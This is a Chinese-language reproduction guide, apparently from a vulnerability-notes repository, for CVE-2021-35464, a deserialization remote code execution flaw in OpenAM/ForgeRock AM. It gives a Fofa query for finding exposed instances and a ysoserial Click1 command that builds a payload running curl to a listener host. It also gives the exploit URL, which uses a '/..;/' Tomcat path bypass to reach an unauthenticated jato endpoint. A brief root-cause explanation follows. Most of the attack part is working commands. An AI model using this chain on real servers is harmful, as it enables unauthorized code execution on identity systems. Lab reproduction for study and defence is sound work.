


# OpenAM / ForgeRock AM远程代码执行漏洞（CVE-2021-35464）

## Fofa

```
app="OpenAM"
```

## 环境搭建

```
docker-compose up -d
```

## 复现过程

- 配置OpenAM

访问 http://127.0.0.1:9999/openam，使用默认配置，配置后页面如下



- 本地开启http server，监听 5555 端口

```
python -m SimpleHTTPServer 5555
```

- 使用 ysoserial.jar 生成payload

```
java -jar ysoserial.jar Click1 "curl http://10.68.63.72:5555" | (echo -ne \\x00 && cat) | base64 | tr '/+' '_-' | tr -d '='
```

P.S. 请下载最新的ysoserial.jar，不然没有 Click1 这个利用链

- 使用生成的payload进行攻击

```
http:127.0.0.1:9999/openam/oauth2/..;/ccversion/Version?jato.pageSession=<payload>
```

http server成功收到请求，RCE成功



## 漏洞简析

### OpenAM 和 ForgeRock AM 关系

OpenAM是开源版本的ForgeRock AM

### 简析

OpenAM集成了jato Web框架（2017年已停止更新），jato中存在一处反序列化利用点。OpenAM中有几处jato的路径可以未授权访问，导致可以通过这些入口，传入恶意的反序列化payload，造成反序列化RCE

注意到Poc中有个`/..;/`，因为路由只接受 /openam/oauth2 path，所以通过tomcat的特性绕过这个限制，路由看到的是/openam/oauth2，实际请求的是/openam/ccversion。
